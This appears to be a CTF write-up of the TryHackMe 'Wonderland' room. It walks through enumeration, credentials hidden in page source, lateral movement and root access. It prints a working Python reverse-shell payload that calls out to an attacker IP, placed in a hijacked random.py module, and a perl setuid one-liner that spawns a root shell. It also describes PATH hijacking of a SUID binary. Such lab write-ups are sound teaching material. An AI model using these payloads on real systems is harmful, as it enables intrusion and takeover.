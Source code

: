 ```yaml
---
title: Wonderland
date: 2022-07-23 12:00:00 -0500
author: L15t3Nr
categories:
  - TryHackMe
  - WriteUp
tags:
  - TryHackMe
  - WriteUp
  - Wonderland
img_path: /assets/img/Wonderland/
permalink: /posts/Wonderland/
layout: post
---
```


Wonderland can be found [here](https://tryhackme.com/room/wonderland)

![Wonderland](Wonderland.jpeg)

# Enumeration
## Nmap
The results of nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Manual Inspection 
The home page contains only an image

![Home](Home.png)

## Fuzzing for Directories
Using Wfuzz, I enumerate directories
```
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --follow --hc 404 http://10.10.241.146/FUZZ/
```

One of the first results comes back as the '/r/' directory.

![r](r.png)

I had a feeling this was going to spell out the word 'rabbit', so I checked. 

![rabbitPage](rabbitPage.png)

There is a page here and checking the source reveals something interesting. 

There are credentials hidden in the page source. 

![sourceCredentials](sourceCredentials.png)

# Lateral Movement
### Alice

The credentials i found grant SSH access as the user 'alice'.

![SSHAlice](SSHAlice.png)

Digging into the users permissions reveals the ability to execute a python script as the user 'rabbit'

`sudo -l`
![sudo-l](sudo-l.png)


### Rabbit
The python script uses the 'random' module and this can exploited by abusing the way python looks up library modules. The first location python checks is the current directory. The random module is located at `/usr/lib/python3.6/random.py`. By placing a malicious file name 'random.py' in the current directory, python will find and use my module before it reaches the `	/usr/lib/python3.6/random.py` location. 

The payload I will use: 
```
import socket,os,pty  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.2.7.45",4242))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
pty.spawn("/bin/sh")
```

and this will be stored in a file called 'random.py' in the directory containing the 'walrus_and_the_carpenter.py' script. 

Setting up a netcat listener on 4242 and then executing the script as the user rabbit will provide a reverse shell as the next user. 

`sudo -u rabbit python3.6 ~/walrus_and_the_carpenter.py`

![randomPY](randomPY.png)

![rabbitShell](rabbitShell.png)

### Hatter

The rabbit user contains a binary called 'teaParty' and their is a SUID set on the binary.

![SUID](SUID2.png)

I downloaded a strings static binary onto the target and inspected the strings in the binary.

![teaParty](teaParty.png)

This revealed that the binary uses the 'date' command without an absolute path. This way I can hijack the command with my own by added a malicious 'date' binary to the tmp directory and including the tmp directory in the path. 

![stringsResults](stringsResults.png)

the malicious date binary will contain a reverse shell payload and then be made executable

![newDate](newDate.png)

The tmp directory is also added to the path

![PATH](PATH.png)

A netcat listener is started on port 2345 and then the binary is executed for a reverse shell as the user Hatter

![TeaPartyExec](TeaPartyExec.png)

![HatterShell](HatterShell.png)

# Privilege Escalation
### Root
User hatter contains a password file in the home directory that I will use to login via SSH

![HatterPassword](HatterPassword.png)

![HatterSSH](HatterSSH.png)

I ran through the [Privilege Escalation Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and found that the hatter user has capabilities set on Perl. 

![GetCap](GetCap.png)

There is a privilege escalation path found on [GTFO bins](https://gtfobins.github.io/gtfobins/perl/)

The payload: 
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

![root](rootWonderland.png)
